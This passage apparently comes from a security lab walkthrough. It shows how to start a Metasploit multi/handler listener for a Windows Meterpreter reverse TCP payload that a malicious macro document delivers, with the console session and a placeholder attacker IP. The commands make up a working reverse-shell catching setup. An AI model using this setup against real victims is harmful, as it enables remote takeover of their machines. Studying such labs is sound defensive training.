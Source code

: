 **Listening for Incoming Connections**

We can use `metasploit` to set up the listener on the attacker’s machine, using the following steps:

- Open a new terminal window and run `msfconsole` to start the Metasploit Framework
- `use multi/handler` to handle incoming connections
- `set payload windows/meterpreter/reverse_tcp` to ensure that our payload works with the payload used when creating the malicious macro
- `set LHOST CONNECTION_IP` specifies the IP address of the attacker’s system and should be the same as the one used when creating the document
- `set LPORT 8888` specifies the port number you are going to listen on and should be the same as the one used when creating the document
- `show options` to confirm the values of your options
- `exploit` starts listening for incoming connections to establish a reverse shell

```bash
          
root@AttackBox:~# msfconsole 
[...]
Metasploit Documentation: https://docs.metasploit.com/

msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST CONNECTION_IP
LHOST => CONNECTION_IP
msf6 exploit(multi/handler) > set LPORT 8888
LPORT => 8888
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     CONNECTION_IP    yes       The listen address (an interface may be specified)
   LPORT     8888             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on CONNECTION_IP:8888 
```
